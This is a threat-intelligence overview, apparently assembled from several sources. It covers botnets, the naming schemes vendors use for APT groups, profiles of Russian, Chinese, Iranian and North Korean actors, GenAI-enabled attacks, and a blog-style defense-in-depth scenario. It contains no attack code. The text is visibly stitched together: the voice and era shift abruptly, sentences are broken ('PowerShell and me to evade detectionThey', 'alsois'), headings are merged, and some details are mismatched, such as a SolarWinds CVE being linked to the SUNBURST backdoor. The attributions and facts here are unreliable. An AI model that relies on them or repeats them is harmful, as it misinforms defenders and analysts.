Bot controllers operate networks that need a large and untraceable means of sending out large amounts of advertising, but who want to build their own network.They can also make money by renting it to others who do not have the financial or technical resources. To make matters worse, botnet technology can be found online for less than $100, making it relatively easy to start what could be a very lucrative business.

### 2.4. The Pinnacle: What is an Advanced Persistent Threat (APT)?


<div style="background: rgba(239, 68, 68, 0.05); border-left: 4px solid #ef4444; padding: 15px; margin: 20px 0; border-radius: 6px;">
  <strong style="color: #ef4444; font-size: 1.1em;">⚠️ Critical Threat Card: CVE-2017-0144 (EternalBlue)</strong>
  <p style="margin: 8px 0 0 0; font-size: 0.95em; line-height: 1.5; color: #9ca3af;">
    <strong>Exploited by:</strong> WannaCry and NotPetya Ransomware<br/>
    <strong>Description:</strong> Exploited a buffer overflow in Microsoft's SMBv1 protocol to propagate to other machines across the network with zero user interaction (worm-like behaviour). Caused billions of dollars in global damage.
  </p>
</div>


* **Key Features:** An APT will be defined as not just malware but a sophisticated, sustained cyber attack campaign in which an intruder establishes a long-lasting and undetectable presence with the aim of stealing sensitive data. Its main qualities are:
* **Advanced** (full-spectrum intelligence gathering techniques), **Persistent** (directed at specific targets, not opportunistic), and **Threat** (human-led, not just automated means).
* **Motivations and Goals:** The primary goals of APTs fall into four main categories: Cyber Espionage (theft of state secrets or intellectual property), e-Crime (for financial gain), Hacktivism, and Disruption. These motivations are often political or economic and target a wide range of sectors, such as government, defence, finance and industry.
* **APT Lifecycle:** A brief overview of the typical attack chain will be presented: initial infiltration (usually through social engineering), expansion (privilege escalation and lateral movement), and exfiltration (data exfiltration). This lays the groundwork for understanding TTPs (Tactics, Techniques and Procedures), which will be discussed in detail in the following sections.

---

While the goal is the same–to infiltrate your network defenses–hackers' motivations often differ. In some cases, intrusion into a network can be done from the inside by a disgruntled employee who wants to harm the organization or steal company secrets for profit.

There are large cracker groups that work diligently to steal credit card information and then offer it for sale. They want to grab and run quickly – take what they want and leave. Their cousins are network parasites — those who silently breach your network and then sit there siphoning off data.

A new and very disturbing trend is the discovery that some governments are funding digital attacks on the network resources of both federal and corporate systems. Various agencies, from the US Department of Defense to the governments of New Zealand, France and Germany, have reported attacks from unidentified Chinese hacking groups. It should be noted that the Chinese government denies any involvement and there is no evidence of any involvement or involvement. Additionally, in October 2008, the South Korean Prime Minister reportedly issued a warning to his cabinet that "approximately 130,000 pieces of government information have been hacked [by North Korean hackers] in the past four years."


While understanding the motivations of these cybercriminals and state-sponsored armies is critical, one of the greatest operational challenges on the defensive side is how to identify these adversaries in the first place. The cybersecurity industry, much like the Tower of Babel, assigns hundreds of different names to the same threat.

## Chapter 3: The "Tower of Babel" Problem in Global Threat Intelligence and the Art of Naming

* **The "Tower of Babel" Problem:** This subsection will explain why a universal naming standard for threat actors is impractical and may not be possible. Because different security vendors (Microsoft, CrowdStrike, Mandiant, Kaspersky, Palo Alto Networks, etc.) have their own telemetry, visibility, and internal research priorities, they develop unique naming schemes. This creates a "Rosetta Stone" problem for defenders who must correlate intelligence from multiple sources.
* **Provider Taxonomies:** The high-level logic of the major provider naming schemes will be introduced to provide a mental model for the aliases the reader will encounter.
* **Microsoft:** Uses a weather-themed taxonomy. Family names such as "Blizzard" (Russia), "Typhoon" (China), "Sandstorm" (Iran) and "Sleet" (North Korea) indicate nation-state origins, while "Tempest" indicates financially motivated actors. Newly discovered activities are indicated by "Storm" and a numerical code.
* **CrowdStrike:** Uses an animal-themed rule. National animals are used for nation-states ("Bear" for Russia, "Panda" for China, "Kitten" for Iran, "Chollima" for North Korea). Financially motivated groups are called "Spiders" and hacktivists are called "Jackals".
* **Mandiant (Google Cloud):** Historically uses a numerical system: "APT" for state-sponsored espionage groups (e.g. APT28, APT29) and "FIN" for financially motivated actors (e.g. FIN7). Uncategorized groups are called "UNC".
* **Palo Alto Networks (Unit 42):** Uses a celestial theme; constellations are used for motivations (e.g. "Libra" for financial) and mythological creatures for nation-states (e.g. "Ursa" for Russia, "Serpens" for Iran).
* **Kaspersky:** Often uses names derived from malware artifacts or campaign characteristics (e.g. "Sofacy" for APT28, "Lazarus" for the North Korean group).
* **Industry Collaboration:** Note will highlight the recent strategic alliance between Microsoft and CrowdStrike to analyze adversary names and create a cohesive mapping. This suggests that although a single standard is unlikely, better correlation is an industry goal.

The existence of different and complex naming schemes directly reflects the structure of the cybersecurity industry: a competitive market of private organizations, each with private data. While this fragmentation is a rich and diverse source of intelligence, it inherently creates an operational burden on defenders who must synthesize these disparate streams. The challenge for a Security Operations Center (SOC) analyst is not just technical (detecting the threat) but alsois analytical (correlating intelligence about the threat). The primary value of this report is to serve as a tool to fill this analytical gap.


**Threat Actor Taxonomy Rosetta Stone**

This table acts as a "Rosetta Stone," providing a means of resolving name conflicts at a glance. A user who comes across the "Typhoon" actor in a Microsoft report can instantly recognize it as a China-affiliated group and cross-reference it with "Panda" reports from CrowdStrike. This allows the user to navigate the complex intelligence environment and makes the rest of the report more understandable and useful.

---

## Chapter 4: APT Groups on the Geographical and Geopolitical Axis (In-Depth Analysis)

### 4.1. Russia-Linked Actors: High Sabotage and Intelligence Integration

This section will detail the threat actors attributed to the Russian Federation, which is known for its sophisticated espionage, disruptive capabilities, and integrated "information conflict" doctrines.

#### APT28 (Fancy Bear / Forest Blizzard)

* **Aliases:** An extensive list including Fancy Bear (CrowdStrike), Forest Blizzard, STRONTIUM (Microsoft), Sofacy (Kaspersky), Sednit (ESET), Pawn Storm (Trend Micro), IRON TWILIGHT (Secureworks), Tsar Team, Group 74, APT 28, G0007 and more.
* **Attribution and Motivation:** Attributed with high confidence to the Main Intelligence Directorate (GRU) of the Russian General Staff, specifically unit 26165. Their motivation is primarily military and political espionage and is aligned with the interests of the Russian government. They do not appear to engage in widespread intellectual property theft for economic gain.
* **Target Profile:** Its targets include government, military and security organizations, especially NATO and Transcaucasian states. They have also targeted the defense sector, energy, media, civil society and international institutions such as the World Anti-Doping Agency (WADA) and the Organization for the Prohibition of Chemical Weapons (OPCW).
* **Operational Summary and TTPs:** Active since at least 2004, APT28 is known for its aggressive and high-impact operations.
* **Notable Campaigns:** The takeover of the Democratic National Committee (DNC) in 2016, the cyber attack on the German Bundestag (Bundestag) in 2015, and the "hack-and-leak" operations against WADA. They are currently waging a widespread cyberespionage campaign against logistics and technology companies supporting Ukraine.
* **Initial Access:** They rely heavily on spear-phishing attacks containing malicious links or attachments, harvesting credentials through fake websites, and exploiting public-facing applications, especially email servers and routers.
* **Post-Exfiltration:** They use a mixture of proprietary malware such as X-Agent, Zebrocy, Sofacy and public tools such as Mimikatz, Cobalt Strike. A key TTP is their use of "hacktivist" identities such as Guccifer 2.0 and "Fancy Bears' Hack Team" to leak stolen data and further their information operations, giving them plausible deniability.

#### APT29 (Cozy Bear / Midnight Blizzard)


<div style="background: rgba(245, 158, 11, 0.05); border-left: 4px solid #f59e0b; padding: 15px; margin: 20px 0; border-radius: 6px;">
  <strong style="color: #f59e0b; font-size: 1.1em;">🔒 Supply Chain Analysis: CVE-2020-10148 (SolarWinds Orion Bypass)</strong>
  <p style="margin: 8px 0 0 0; font-size: 0.95em; line-height: 1.5; color: #9ca3af;">
    <strong>Actor Group:</strong> Cozy Bear / Midnight Blizzard (APT29)<br/>
    <strong>Attack Vector:</strong> Injected the "SUNBURST" backdoor into trusted SolarWinds Orion software update packages. Enabled infiltration of over 18,000 sensitive networks, including US federal agencies.
  </p>
</div>

* **Nicknames:** Cozy Bear (CrowdStrike), Midnight Blizzard, NOBELIUM (Microsoft), The Dukes, IRON HEMLOCK, UNC2452, APT29, G0016.
* **Attribution and Motivation:** Attributed to the Russian Foreign Intelligence Service (SVR). Their primary motivation is long-term intelligence gathering and espionage, focused on gathering foreign policy, diplomatic, and geopolitical data that will advantage the Russian state.
* **Target Profile:** Targets government networks, diplomatic organizations, think tanks, research institutes and IT service providers in Europe and NATO member countries. They have also targeted organizations involved in COVID-19 vaccine research.
* **Operational Summary and TTPs:** Active since at least 2008, APT29 is known for its stealth, sophisticated tactics, and patience.
* **Notable Campaigns:** 2015–2016 DNC infiltration (conducted separately from APT28) , 2020 SolarWinds supply chain attack (tracked as UNC2452/NOBELIUM), and recent attacks on Microsoft and TeamViewer in 2024.
* **Initial Access:** They use a wide variety of initial access vectors, including sophisticated spear phishing, supply chain intrusions (SolarWinds), and identity-based attacks such as password spraying against cloud services.
* **Post-Infiltration:** They are known for their special "Duke" family malware (MiniDuke, CozyDuke, etc.). PowerShell and me to evade detectionThey make extensive use of "living off the land" techniques by using legitimate cloud management tools. A key TTP is their misuse of OAuth implementations and stolen tokens for persistence and lateral movement in cloud environments.


*Command and Control (C2) server — the attacker manages the victim remotely across the firewall.*


*SolarWinds SUNBURST operation — the 12-step anatomy of a supply chain attack (Vectra, 2020).*

#### Sandworm (APT44 / Seashell Blizzard)

* **Nicknames:** APT44 (Mandiant), Seashell Blizzard (Microsoft), VOODOO BEAR, IRON VIKING, Telebots.
* **Attribution and Motivation:** Attributed to Military Unit 74455 of the GRU. Sandworm is a dynamic and mature actor active in the full spectrum of espionage, attack and influence operations. Their main motivation is to support Russia's military and political objectives, especially through disruptive and destructive attacks.
* **Target Profile:** It primarily targets government, defense, transportation, energy and media organizations, focusing especially on the "near surroundings" of Ukraine and Russia. They also target Western electoral systems and global critical infrastructure.
* **Operational Summary and TTPs:** Responsible for some of the most significant cyberattacks in history.
* **Notable Campaigns:** 2015 and 2016 Ukrainian power grid attacks, 2017 global NotPetya attack, and sabotage of the 2018 Pyeongchang Olympics. They are currently conducting a high-intensity cyber sabotage campaign in Ukraine using wiper malware.
* **TTPs:** They leverage a wide range of initial access vectors, from exploiting end infrastructure such as routers and VPNs to supply chain infiltrations. They are known for distributing destructive wiper malware and have recently been associated with hacktivist identities such as "CyberArmyofRussia\_Reborn" to exfiltrate data and claim responsibility for attacks on critical infrastructure in the US and Europe.

#### Gamaredon (Primitive Bear / Aqua Blizzard)

* **Nicknames:** Primitive Bear (CrowdStrike), Aqua Blizzard (Microsoft), Armageddon, Shuckworm.
* **Attribution and Motivation:** Attributed to the Russian Federal Security Service (FSB). Their main motivation is cyber espionage.
* **Target Profile:** Focused almost exclusively on Ukrainian government and military organizations.
* **Operational Summary and TTPs:** A highly active and persistent threat actor known for large-scale spear phishing campaigns. They use specialized malware for command and control (C2) communications and often leverage legitimate software and services.

The GRU/SVR operational dichotomy is evident in the observed TTPs and targeting of these groups. APT28 and APT44, affiliated with the GRU, a military intelligence agency, conduct aggressive and often noisy operations aligned with tactical military and political objectives, such as election interference and subversive attacks. In contrast, APT29, affiliated with the SVR, a foreign intelligence agency, focuses on long-term, covert operations to gather strategic intelligence from diplomatic and policy-making institutions, consistent with traditional foreign espionage, and demonstrates greater operational security and patience. This distinction allows defenders to better predict the enemy's intent based on the detected group.

Additionally, Russian-linked actors tend to use e-crime infrastructure and actors for state goals. This provides plausible deniability and allows access to a broader pool of tools and resources. For example, DanaBot malware operated by Russia-based e-crime group SCULLY SPIDER has been used to launch DDoS attacks against the Ukrainian Ministry of Defense in concert with Russian military targets. The DOJ indictment revealed that DanaBot subbotnets were also used for espionage purposes, a feature of government activities. This implies a strategy within Russia's "information conflict" doctrine that deliberately blurs the lines between state and criminal activity, complicating attribution and intervention for Western nations.

### 4.2. China-Linked Actors: Industrial Espionage and Infrastructure Intrusions

This section will detail the threat actors generally attributed to the People's Republic of China, which is characterized by large-scale intellectual property theft, broad-spectrum espionage, and increasing operational sophistication.

#### APT1 & APT10 (Stone Panda / Comment Crew / Red Apollo)

* **Pseudonyms:** Comment Crew, Shanghai Group, PLA Unit 61398.
* **Attribution and Motivation:** Attributed to People's Liberation Army (PLA) Unit 61398. Basic motivation, economic gain and intellectualIt is cyber espionage for property theft.
* **Target Profile:** A wide range of industries including defence, aerospace and technology.
* **Operational Summary and TTPs:** One of the first APTs publicly announced (by Mandiant in 2013). It is known for long-term infiltrations, with an average residence time of one year in victim networks. They use proprietary malware and public tools like Mimikatz.

* **Nicknames:** Stone Panda (CrowdStrike), Red Apollo, MenuPass, POTASSIUM (Microsoft), Cloud Hopper.
* **Attribution and Motivation:** Attributed to China's Ministry of State Security (MSS), Tianjin State Security Bureau. The motivation is cyber espionage.
* **Target Profile:** The "Cloud Hopper" campaign targets multiple industries globally, including healthcare, defense, aerospace, and managed service providers (MSP).
* **Operational Summary and TTPs:** Known for supply chain attacks targeting MSPs to gain access to their customers. It uses a mixture of specialized malware such as HAYMAKER, SNUGRIDE, and legitimate tools such as PowerShell, WMIExec.

#### APT41 (Winnti / Brass Typhoon)

* **Nicknames:** BARIUM, WICKED PANDA, Winnti Group, Double Dragon (CrowdStrike/Mandiant), Brass Typhoon (Microsoft).
* **Attribution and Motivation:** Believed to be Chinese state-sponsored contractors who also conduct financially motivated operations, possibly with the tacit approval of government officials. This creates a unique dual-purpose espionage and cybercrime motivation.
* **Target Profile:** Espionage campaigns target the healthcare, telecommunications and high-tech sectors. Cybercrime attacks focus on the video game industry (manipulating virtual currencies) and ransomware distribution.
* **Operational Summary and TTPs:** It is a prolific and sophisticated actor that has been active since at least 2012. They are known for using a large arsenal of more than 46 different malware families, including backdoors, rootkits, and credential thieves. They often rely on spear phishing attacks involving compiled HTML (.chm) files for initial access.

#### Other Important China-Linked Groups

* **APT3 (Gothic Panda / Brocade Typhoon):** Targets aviation, defense and technology.
* **APT18 (Dynamite Panda / Wekby):** Affiliated with the PLA Navy, targets healthcare, pharmaceuticals and biotechnology.
* **APT27 (Emissary Panda / Linen Typhoon):** Targets government and defense sectors in Central Asia and Europe.
* **APT31 (Zirconium / Violet Typhoon):** Targets political organizations, defense and high technology sectors.
* **APT40 (Leviathan / Gingham Typhoon):** Targets maritime industries and sectors strategic to China's Belt and Road Initiative.

APT41's profile reveals a key trend in Chinese cyber operations: the use of state-contracted actors who are allowed to conduct their own for-profit cybercrime. This dual-purpose model complicates attribution and intervention. For defenders, this means that an infiltration that initially appears to be financially motivated (for example, ransomware targeting a gaming company) could be a precursor or cover for a state-sponsored espionage operation. This requires a more holistic approach to incident response, where motivation is not assumed based on initial indicators alone.

Additionally, the targeting patterns of Chinese APTs are not random; It is strictly aligned with China's national strategic goals, such as the Belt and Road Initiative (APT40) and 5-year economic plans (APT41's intellectual property theft). This demonstrates a direct link between geopolitical/economic policy and cyber operations. This means that organizations can do proactive threat modeling by analyzing China's publicly available strategic documents. If a company operates in an industry identified as a priority for China's development, it is a possible target for a China-related APT.

### 4.3. Iran-Linked Actors: Social Engineering and Cyber Sabotage

This section will cover threat actors attributed to Iran who are notable for their heavy reliance on social engineering, targeting dissidents, and use of a mix of espionage and subversive operations.

#### APT33 (Elfin) & APT34 (OilRig)

* **Nicknames:** Elfin, Magnallium (Mandiant), HOLMIUM, Peach Sandstorm (Microsoft), Refined Kitten (Crowd)Strike).
* **Attribution and Motivation:** A suspected Iranian government-backed group active since at least 2013. Their motivations include cyber espionage and preparing for potentially disruptive operations against critical infrastructure.
* **Target Profile:** Primarily targets the aviation, energy and government sectors in the USA, Saudi Arabia and South Korea.
* **Operational Summary and TTPs:** Combines low-cost initial access methods with custom-made malware.
* **Initial Access:** Relies on spear phishing attacks with malicious attachments (usually job posting themed) and password sputtering. They are known to exploit publicly disclosed vulnerabilities (N-days).
* **Malware:** Uses specialized malware such as DROPSHOT and SHAPESHIFT, as well as the infamous Shamoon data deletion software. They also use publicly available tools like Mimikatz and LaZagne for credential dumping.

* **Aliases:** OilRig, Helix Kitten (Kaspersky), Hazel Sandstorm, EUROPIUM (Microsoft), Crambus, IRN2.
* **Attribution and Motivation:** Affiliated with the Iranian Ministry of Intelligence and Security (MOIS). Active since 2014, their motivation is cyber espionage and intelligence gathering aligned with Iranian state interests.
* **Target Profile:** Broadly targets the financial, government, energy, chemical and telecommunications sectors, with a primary focus on the Middle East.
* **Operational Summary and TTPs:** They are known for using PowerShell-based tools and DNS tunneling for C2.
* **Campaigns:** The 2016 Helminth backdoor campaign and the 2018 QUADAGENT distribution are notable examples. They often conduct supply chain attacks by taking over a less secure organization to achieve their primary goal.
* **Malware:** They use special backdoors such as Helminth and QUADAGENT. A leak in 2019 revealed a significant portion of the toolsets.

#### APT35/APT42 (Charming Kitten / Mint Sandstorm)

* **Nicknames:** Charming Kitten, Phosphorus, Magic Hound (CrowdStrike), Mint Sandstorm (Microsoft), Agent Serpens (Palo Alto), Newscaster Team, TA453.
* **Attribution and Motivation:** Attributed to the Iranian Revolutionary Guard Corps (IRGC). Their main motivation is surveillance and information gathering against individuals and organizations of strategic importance to the Iranian government, especially dissidents and enemies of the regime.
* **Target Profile:** Targets journalists, researchers, academics, human rights activists, government officials and the Iranian diaspora abroad.
* **Operational Summary and TTPs:** They are masters of social engineering and deception.
* **Techniques:** They conduct long-term, resource-intensive social engineering campaigns by creating fake identities and websites to build trust and relationships with victims, then send phishing links or malware. They use compromised email accounts and legitimate cloud services to C2 to evade detection. They have also used ransomware in some campaigns.

Iranian APTs, unlike the more technically focused Russian and Chinese groups, demonstrate a mastery and intense dependence on sophisticated and long-term social engineering. They compensate for not using zero-day vulnerabilities by investing in psychological manipulation. Multiple sources indicate that Charming Kitten's (APT35/42) core TTP is to establish trust and rapport over long periods of time before an attack. This differs from the more direct spear phishing or vulnerability exploitation seen from other state actors. This shows that Iran's cyber doctrine gives priority to human intelligence (HUMINT) techniques adapted to the digital domain. For advocates, this simply means that technical controls such as email filtering are inadequate. A strong defense requires solid user security awareness training and processes for authenticating unknown individuals, no matter how plausible they may seem.

### 4.4. North Korea-Linked Actors: Financial Warfare via Cyber Army

This chapter will analyze threat actors attributed to the Democratic People's Republic of Korea (DPRK), which has the unique mission of carrying out a combination of state-sponsored espionage and large-scale financial crimes to generate revenue for the regime.

#### Lazarus Group (Diamond Sleet / APT38) & Kimsuky (Emerald Sleet / APT43)

* **Aliases:** Diamond Sleet, ZINC (Microsoft), HIDDEN COBRA (US Government), Guardians ofPeace, APT38 (Mandiant, for financial operations).
* **Attribution and Motivation:** A North Korean state-sponsored group attributed to the Reconnaissance General Bureau (RGB). They have the dual motivation of traditional espionage and financially motivated attacks, including cryptocurrency theft and bank robberies, to generate illicit revenue in violation of international sanctions.
* **Target Profile:** Espionage targets include media, defense and IT industries globally. Financial targets include banks, financial institutions, and cryptocurrency exchanges and users.
* **Operational Summary and TTPs:** Active since at least 2009.
* **Notable Campaigns:** 2014 Sony Pictures attack (using Destover wiper malware) , 2016 Bangladesh Bank heist ($81 million stolen via SWIFT) , 2017 WannaCry ransomware attack, and numerous multi-million dollar cryptocurrency heists.
* **TTPs:** They use a wide range of specialized malware such as Destover, Manuscrypt. They often use spear phishing for initial reach and are adept at evading defenses and lateral movement. Their financial subgroup, Bluenoroff, specializes in highly targeted attacks against financial institutions.

* **Nicknames:** Emerald Sleet (Microsoft), Velvet Chollima, Black Banshee (CrowdStrike), THALLIUM, APT43, TA406.
* **Attribution and Motivation:** A North Korean APT group possibly affiliated with the RGB and tasked with global intelligence gathering. Their focus is on foreign policy, national security, and nuclear policy issues related to the Korean peninsula, nuclear policy, and sanctions. They also engage in financially motivated crimes to finance operations.
* **Target Profile:** Primarily targets government organizations, think tanks, journalists and academic experts in South Korea, the USA, Japan and Europe.
* **Operational Summary and TTPs:** Active since at least 2012.
* **Techniques:** They are masters of social engineering and spear phishing, posing as journalists or academics to establish relationships before sending malicious links or attachments. They use specialized malware like BabyShark and leverage legitimate tools like PowerShell and VBScript for execution and persistence. They are known to use malicious browser extensions and exploit misconfigured DMARC policies to advance phishing campaigns.

#### Other Notable North Korea-Linked Groups

* **APT45 (Andariel / Onyx Sleet):** A moderately sophisticated operator, also related to RGB, active since 2009. They conduct espionage against defense and government, but have expanded into financially motivated operations, including the questionable use of MAUI ransomware against hospitals.

North Korea's cyber operations represent the clearest convergence of state espionage with large-scale criminal enterprise. Unlike cases in other nations where e-crime is tolerated or used opportunistically, for the DPRK it is a key pillar of its national strategy to circumvent sanctions and finance its state and military and nuclear programs. The Lazarus Group is clearly associated with major financial heists such as the Bangladesh Bank robbery and numerous cryptocurrency thefts worth hundreds of millions of dollars. The US government and security firms directly state that these activities are intended to generate illegal revenue for the regime. This is not just a "crime"; It is a key component of state-directed financial warfare and foreign policies. This means that any organization in the financial or cryptocurrency sectors is a direct target of a North Korean state actor, not only for espionage but also for outright theft.

### 4.5. Other Major Threat Actors

This section will briefly discuss other important state-sponsored and financially motivated groups mentioned in the research material to present a more complete global picture.

#### Vietnam Link: APT32 (OceanLotus)

* **Nicknames:** OceanLotus, Canvas Cyclone (Microsoft).
* **Operational Summary:** A Vietnamese state-sponsored group focused on cyber espionage against foreign companies, foreign governments, and political opponents with interests in Vietnam's manufacturing, consumer goods, and hospitality sectors.

#### Financially Motivated Actexamples (e-Crime)

* **FIN7:** A sophisticated and prolific e-crime group known for stealing payment card data by targeting point-of-sale (POS) systems in the restaurant, gaming and hospitality industries.
* **SCATTERED SPIDER (Octo Tempest):** A highly skilled e-crime group known for social engineering attacks targeting IT help desks to gain initial access to large companies, particularly in the telecommunications and BPO sectors.

TTPs used by financially motivated groups such as FIN7 and SCATTERED SPIDER are increasingly similar to those used by nation-states. They demonstrate high levels of operational security, social engineering expertise, and the ability to bypass modern defenses such as MFA. SCATTERED SPIDER's use of vishing and help desk scams is a sophisticated social engineering tactic. The overall trend shows a massive increase in malware-free, identity-based attacks across all threat actors, not just from nation-states. This shows that tools and techniques once considered "advanced" are now part of the standard e-crime playbook. What this means is that, technically and defensively, the distinction between defending between a "nation-state" and a "high-level criminal" is becoming increasingly blurred. Organizations should assume that any adversary can use sophisticated, identity-focused TTPs.

---

## Chapter 5: Shared Weapon of Modern Threats: The GenAI Threat

The rapid adoption of Generative AI (GenAI) technologies has provided threat actors with powerful automation and payload optimization capabilities.


*GenAI-powered deepfakes — the new frontier of social engineering.*

### 5.1. Adversarial Adaptation of GenAI

Threat actors leverage Large Language Models (LLMs) to enhance their technical capabilities:
1.  **Polymorphic Malware:** Attackers use LLMs to write and refactor payloads, enabling code mutation to bypass signature-based antivirus and EDR solutions.
2.  **Rapid Exploit Generation:** As soon as a new CVE (vulnerability) is announced, threat actors use AI to analyze vulnerability descriptions and build functional exploit prototypes within hours.

### 5.2. The Era of Flawless Spear-Phishing

In the past, phishing emails were easily identifiable by poor grammar, awkward phrasing, and translation errors. With GenAI:
*   Threat actors generate highly professional, grammatically perfect spear-phishing emails in the target's native language.
*   By analyzing a target's public social media posts, AI engines can craft highly personalized, context-aware emails that bypass human suspicion.
*   **Deepfake** audio and video technologies are deployed to mimic corporate executives, leading to sophisticated Business Email Compromise (BEC) attacks where financial teams are convinced to execute urgent wire transfers.

---


In the face of this AI-powered automation — flawless phishing emails and polymorphic malware — traditional perimeter defenses like firewalls are utterly powerless on their own. Only one strategy remains capable of slowing the adversary and trapping them within our own labyrinth: Defense-in-Depth architecture.

## Chapter 6: Defense-in-Depth Architecture for Modern Enterprises

Most security experts agree that perfect network security is impossible and that any defenses can always be bypassed. The defense-in-depth strategy embraces blocking the attacker with multiple layers of defense. He acknowledges that each layer can be overcome. Valuable assets are protected by more layers of defense. The combination of multiple layers increases the cost of success of the attack, which is proportional to the value of the assets protected. Additionally, the combination of multiple layers is more effective than a single optimized defense against unexpected attacks. The cost to the attacker may come in the form of additional time, effort, or equipment. For example, an attacker's delay can increase an organization's chances of detecting and responding to the attack in progress. If the increased costs outweigh the gains from a successful attack, some attempts may be discouraged.


Defense In Depth

Defense in depth is sometimes said to involve people, technology and operations. Trained security personnel must be responsible for the security and information assurance of facilities. However, every computer user in an organization should be made aware of security policies and practices. Every home Internet user should learn about safe practices (such as avoiding opening email attachments or clicking suspicious links) and the benefits of proper protection (antivirus software, firewalls).

Various technological measures can be used for protection layers. These include firewalls, IDSs, access control lists (ACLs), antivirus software, access control, spam filters, etc. should take place.


Defense in Depth

**Defense-in-Depth** is a cybersecurity approach applied in layers to protect data and information using a series of defense mechanisms.


It works on the principle that if one layer is breached, the attack is detected and prevented in other layers. This strategy does not have certain layers published by an authority. However, in this article, I will try to explain with my own interpretation how we can be protected with a few possible layers. You can access my article in which I discuss this subject in detail [here](https://medium.com/@yusufarbc/derinlesunu-savunma-defense-in-depth-stratejisi-64e0be8ec1f0).

However, there is one more thing we need to mention before that. The tactics and methods used in a cyber attack are classified and listed by Miter. In my article, I will mention these tactics frequently, but I will not go into detail about these tactics in order not to lengthen the article. You can access the Miter attack enterprise matrix from the link: <https://attack.mitre.org/matrices/enterprise/>

My scenario covers the detection and prevention of a zero-day vulnerability discovered in a particular service of an organization and an attack that exploits this vulnerability. Of course, one of the most critical among the discovered vulnerabilities; Let's consider the detection and prevention of an attack that exploits a zero-day vulnerability that occurs in an open service of the institution and allows remote access (RCE).


Bank Network Topology

Let's say that an RCE vulnerability was discovered in a publicly accessible service of a bank within the scope of Sernaryo. And let's prevent an attack that exploits this vulnerability layer by layer..

We can summarize the layers as follows:

* **Network Protection**: Firewalls, IPS/IDS, NDR. NAC
* **Application Protection**: WAF, Application Logs, Updates
* **Endpoint Protection**: Antivirus/Antimalware, Antiphishing/Mail Security, EPP, EDR, syslog/eventlog, Patching
* **Data Protection**: DLP, ACL

There is a SIEM that brings it all together.




### Layer 1: Application Protection - Outer Perimeter

Most computer users are aware that Internet use poses security risks. It makes sense to take precautions to minimize exposure to attacks. Fortunately, several options are available for computer users to reduce risks by strengthening their systems.

As mentioned before, vulnerabilities are weaknesses in software that can be exploited to compromise a computer. Vulnerable software includes all types of operating systems and application programs. New vulnerabilities are constantly being discovered in different ways. New vulnerabilities discovered by security researchers are usually reported confidentially to the vendor, giving the vendor time to examine the vulnerability and develop a path. A significant portion of today's disclosed vulnerabilities are actively exploited before vendor patches are released — making the concept of the 'zero-day window' increasingly critical with each passing year. Once ready, the vendor will release the vulnerability, hopefully along with a patch.

It has been claimed that publishing vulnerabilities would help attackers. While this may be true, publishing also raises awareness throughout society. System administrators will be able to evaluate their systems and take appropriate action. System administrators may be expected to know the configuration of computers on their network, but in large organizations it will be difficult to keep track of possible configuration changes made by users. Vulnerability testing provides a simple way to obtain information about the configuration of computers on a network.

Vulnerability testing is an exercise in investigating systems for known vulnerabilities. It requires a database of known vulnerabilities, a package generator, and testing routines to create a set of packages to test for a specific vulnerability. If a security vulnerability is found and a software patch is available, the computer should be patched at that time.

Your security policy should include regular vulnerability testing. Some very good vulnerability testing tools such as WebInspect, Acunetix, GFI LANguard, Nessus, HFNetChk and Tripwire allow you to do your own security testing. There are also third-party companies that have a suite of state-of-the-art testing tools that can be contracted to scan your network for open and/or accessible ports, weaknesses in firewalls, and Website vulnerability.

